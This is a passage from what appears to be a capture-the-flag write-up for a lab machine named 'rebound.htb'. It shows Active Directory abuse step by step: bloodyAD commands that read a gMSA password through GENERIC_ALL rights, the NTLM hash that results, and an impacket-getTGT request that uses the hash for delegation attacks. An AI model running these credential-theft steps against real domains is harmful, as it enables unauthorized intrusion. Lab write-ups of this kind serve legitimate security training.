 ![image34](../resources/fb2925f8387240afa78f7821e9359041.png)

We can see that tbrady has GENERIC_ALL on this account

- **Get the GMSA password:**

```bash
./bloodyAD.py -d rebound.htb -u tbrady -p '543BOMBOMBUNmanda' --host dc01.rebound.htb get object 'delegator$' --resolve-sd --attr msDS-ManagedPassword

```

![image35](../resources/e96a2eb7ee4448e68efae2d1e16b58be.png)

NTLM hash: **aad3b435b51404eeaad3b435b51404ee:e1630b0e18242439a50e9d8b5f5b7524**

- This is a good article to read for RBCD:
<https://medium.com/r3d-buck3t/how-to-abuse-resource-based-constrained-delegation-to-gain-unauthorized-access-36ac8337dd5a>

```bash
impacket-getTGT 'rebound.htb/delegator$@dc01.rebound.htb' -hashes aad3b435b51404eeaad3b435b51404ee:e1630b0e18242439a50e9d8b5f5b7524 -dc-ip 10.129.169.100

```

![image36](../resources/9e95a031e64b4797892bcd539b3564f2.png)

```bash
export KRB5CCNAME=delegator\$@dc01.rebound.htb.ccache

```

